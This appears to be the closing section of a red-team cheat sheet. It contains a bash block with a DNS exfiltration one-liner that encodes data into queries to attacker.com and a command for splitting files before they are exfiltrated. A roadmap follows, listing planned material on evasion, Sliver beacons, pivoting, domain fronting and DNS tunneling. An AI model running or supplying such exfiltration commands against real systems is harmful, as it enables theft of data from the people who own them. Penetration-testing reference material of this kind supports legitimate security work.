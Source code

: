 ### Operational Security
```bash
# DNS exfiltration (encode data in DNS queries)
dig +short `base64 data`.attacker.com TXT

# Split large files for exfiltration
split -b 1M largefile chunk_
```

**Pro Tips:**
- Always encrypt sensitive data in transit
- Use `nohup` or `tmux` for long-running operations
- Chain commands with `&&` for sequential execution
- Test all commands in a lab environment first

---

## Future Additions

**Planned Content Expansions:**

- **Attack Surface Mapping**  
  `[ ]` Add detailed subdomain enumeration techniques  
  `[ ]` Include cloud asset discovery methods  
  `[ ]` Expand network visualization examples  

- **Evasion Techniques**  
  `[ ]` Deep dive into process injection  
  `[ ]` Add artifactless execution patterns  
  `[ ]` Cover traffic morphing strategies  

- **Sliver Beacons**  
  `[ ]` Advanced beacon configuration options  
  `[ ]` OPSEC considerations for beacons  
  `[ ]` Beacon tasking scenarios  

- **Pivot Walkthrough**  
  `[ ]` Multi-hop SSH tunneling  
  `[ ]` IPv6 pivoting techniques  
  `[ ]` Router-specific pivoting  

- **Domain Fronting**  
  `[ ]` Cloud provider-specific setups  
  `[ ]` Detection avoidance measures  
  `[ ]` CDN configuration examples  

- **DNS Tunneling**  
  `[ ]` DNScat2 setup guide  
  `[ ]` Alternative DNS exfil tools  
  `[ ]` Defensive detection methods  
